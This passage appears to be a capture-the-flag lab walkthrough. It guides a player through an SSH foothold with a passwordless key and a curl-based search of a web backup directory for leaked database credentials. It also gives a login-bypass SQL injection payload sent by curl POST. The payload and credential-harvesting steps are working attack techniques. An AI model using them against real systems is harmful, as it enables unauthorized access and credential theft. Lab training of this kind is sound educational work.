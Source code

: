 
**Phase 3: Initial Foothold (SSH Jump Box)**

1.  **Identify the Target:** From `main_strategy.md` or `~/.ssh/config`, the jump box is `172.16.10.5` (or alias `target_internal`).

2.  **Find the Right Key:** The notes mention the `ghost` account uses the `id_ed25519` key. This key doesn't have a password.
    *   Check key exists: `ls ~/.ssh/id_ed25519`

3.  **Connect via SSH:**
    *   `ssh ghost@172.16.10.5` (Or `ssh target_internal`)
    *   If asked "Are you sure you want to continue connecting (yes/no/[fingerprint])?", type `yes` and press Enter.
    *   You should now have a command prompt on the `ssh-jump` machine!

4.  **Explore the Jump Box:**
    *   You are in `/home/ghost`. Type `ls -la`.
    *   Find the flag: `cat flag.txt` (Flag: `FLAG{JUMPBOX_ACCESS_GHOST}`). **Go back to your Kali machine terminal (not the SSH one) and submit this flag:** `nc director 9999`.
    *   Check for messages from ZF: `ls messages/`. Initially empty.
    *   Check scripts: `ls scripts/`. `cat scripts/check_connections.sh`.

---

**Phase 4: Exploring the DMZ (Web & Portal)**

*   **Perform these steps from your SSH session on the `ssh-jump` box.**

1.  **Target 1: Web Server (172.16.10.100)**
    *   Check what's running: `curl http://172.16.10.100` (Basic welcome page).
    *   Check `robots.txt`: `curl http://172.16.10.100/robots.txt`. It disallows `/dev-backup/`. Interesting!
    *   Explore the backup directory: `curl http://172.16.10.100/dev-backup/` (Might show file listing or error).
    *   Try finding specific files: `curl http://172.16.10.100/dev-backup/db_config.php.bak`
    *   **Credentials Leaked!** You'll see PHP code defining DB user `web_user` and password `SimplePassw0rd`. Make a note of these!
    *   **Find Flag:** Check the web server's root directory or flag file. The setup script placed a flag file inside the container, accessible via the mount point, but it's easier to assume the flag is related to finding the creds. The intended flag here is likely `FLAG{WEBSERVER_DB_CREDS_LEAKED}`. Submit it from your Kali machine.

2.  **Target 2: Portal Server (172.16.10.105)**
    *   Access the portal: `curl http://172.16.10.105`
    *   View source code (or use `curl` output). Look for comments or hidden info.
        *   **Minor Flag:** The setup script mentions `FLAG{PORTAL_HTML_SOURCE_VIEW}` might be in the source. Submit it if you find it.
    *   **Look for Vulnerabilities:** Ghost's notes mentioned potential SQL Injection (SQLi). The login page is the likely target.
    *   **Attempt SQL Injection:** A common basic SQLi bypass for login is using `' OR '1'='1 -- ` in the username field.
        *   Try with `curl`: `curl -X POST -d "username=' OR '1'='1 -- &password=anypassword" http://172.16.10.105/index.php` (You might need to adjust the parameter names if they are different, check the HTML source for the form).
    *   If successful, the response should indicate login success or show a dashboard page.
    *   **Find Flag:** The page loaded after the successful SQLi should contain the flag `FLAG{PORTAL_ACCESS_VIA_SQLI}`. Submit it.

---